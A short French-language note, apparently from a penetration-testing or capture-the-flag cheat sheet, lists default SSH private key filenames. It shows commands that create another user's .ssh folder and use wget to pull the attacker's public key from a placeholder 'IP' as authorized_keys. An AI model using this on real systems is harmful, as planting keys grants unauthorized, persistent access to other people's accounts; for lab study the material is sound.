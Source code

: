 fichiers de clefs par défaut:
* id_rsa
* id_dsa
* id_dss
* id_ecdsa

On peut s'autoriser soit-même en créant le dossier .ssh et en y ajoutant notre clef publique

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
cp /root/.ssh/id_rsa.pub authorized_keys

mkdir /home/mike/.ssh
cd/home/mike/.ssh
wget IP/authorized_keys
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
